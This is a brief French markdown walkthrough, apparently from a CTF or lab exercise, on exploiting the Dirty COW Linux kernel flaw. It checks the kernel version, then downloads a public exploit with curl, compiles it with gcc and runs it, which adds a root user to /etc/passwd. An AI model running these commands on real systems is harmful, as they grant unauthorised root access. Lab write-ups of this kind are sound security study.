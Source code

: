 # Dirty Cow 

- Cette faille disponible sur les linux version 2.6.22 (2007) à 4.8.3 (2016) permet d'ecrire sur des fichiers accessible uniquement en lecture seule
- On regarde par regarder la version du linux pour savoir si l'exploit est utilisable
```
$> uname -r

3.2.0-91-generic-pae
```
- L'exploit est donc compatible avec notre version de linux
- On lance donc l'exploit
```
curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
- L'exploit arrive donc a ecrire un nouvelle utilisateur root dans /etc/passwd 

## Source
- [Explication](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html#what-is-cow)
- [Excplication Youtube](https://www.youtube.com/watch?v=kEsshExn7aE)
- [Script](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

